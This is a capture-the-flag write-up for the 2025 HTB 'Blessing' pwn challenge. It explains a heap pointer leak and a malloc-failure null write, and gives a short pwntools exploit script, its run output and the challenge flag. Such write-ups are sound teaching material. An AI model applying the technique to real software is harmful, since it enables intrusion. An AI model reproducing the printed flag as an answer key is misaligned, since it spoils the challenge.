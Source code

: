 # 2025 HTB Cyber Apocalypse CTF - Blessing

This is a classic pwn challenge where only one binary is given. This one seemed to be pretty simple:
```
  local_20 = (long *)malloc(0x30000);
  *local_20 = 1;
  printstr(
          "In the ancient realm of Eldoria, a roaming bard grants you good luck and offers you a gif t!\n\nPlease accept this: "
          );
  printf("%p",local_20);
  sleep(1);
  for (local_28 = 0; local_28 < 0xe; local_28 = local_28 + 1) {
    printf("\b \b");
    usleep(60000);
  }
  puts("\n");
  printf("%s[%sBard%s]: Now, I want something in return...\n\nHow about a song?\n\nGive me the song\ 's length: "
         ,&DAT_00102063,&DAT_00102643,&DAT_00102063);
  __isoc99_scanf(&DAT_001026b1,&local_30);
  local_18 = malloc(local_30);
  printf("\n%s[%sBard%s]: Excellent! Now tell me the song: ",&DAT_00102063,&DAT_00102643,
         &DAT_00102063);
  read(0,local_18,local_30);
  *(undefined8 *)((long)local_18 + (local_30 - 1)) = 0;
  write(1,local_18,local_30);
  if (*local_20 == 0) {
    read_flag();
  }
```

The idea is to rewrite heap memory where `local_20` variable points to. The pointer of the variable is given in the first `printstr` function.

In subsequent call, binary asks for a length which is used for the `malloc` call. To overwrite `*local_20` we would need to write the appropriate size so that the following line writes NULL to the same memory area to which `local_20` points to:
```
*(undefined8 *)((long)local_18 + (local_30 - 1)) = 0;
```

Best way to do this is to set `local_30` to the value of the address printed by the first `printstr` since the result of the malloc will be NULL, effectively setting `local_18` variable to 0 (because malloc size is too big and allocation fails). Taking this into account, the line that writes to our defined memory will write NULL to `0 + local_30 - 1` where `local_30 - 1` equals to `local_20`.

The exploit script is rather simple:
```python3
from pwn import *

r = process("./blessing")
#gdb.attach(r, '''
#set follow-fork-mode child
#b main
#b setup
#b write
#continue
#''')

r.recvuntil(b"this: ")
leak = int(r.recvuntil(b"\x08")[:-1], 16)
print(leak)

r.recvuntil(b"length: ")
r.sendline(str(leak).encode())
r.recvuntil(b"song: ")
r.sendline(b"\x00")
r.interactive()
```

Local execution:
```
$ python3 xpl.py 
[+] Starting local process './blessing': pid 9125
140706527404048
[*] Switching to interactive mode
[*] Process './blessing' stopped with exit code 0 (pid 9125)
HTB{f4k3_fl4g_f0r_t35t1ng}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
```

```
HTB{3v3ryth1ng_l00k5_345y_w1th_l34k5_6ce17069e4ec01d2487800bcbe9509c0}
```
